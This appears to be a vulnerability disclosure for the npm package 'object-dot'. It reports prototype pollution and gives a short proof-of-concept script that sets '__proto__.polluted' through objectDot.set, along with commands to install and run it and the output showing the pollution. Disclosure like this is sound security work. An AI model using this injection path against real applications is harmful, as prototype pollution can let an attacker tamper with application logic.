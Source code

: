 # Description

`object-dot` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var objectDot = require("object-dot")
var obj = {}
console.log("Before : " + obj.polluted);
objectDot.set(obj, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + obj.polluted);
```


2. Execute the following commands in terminal:

```
npm i object-dot # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
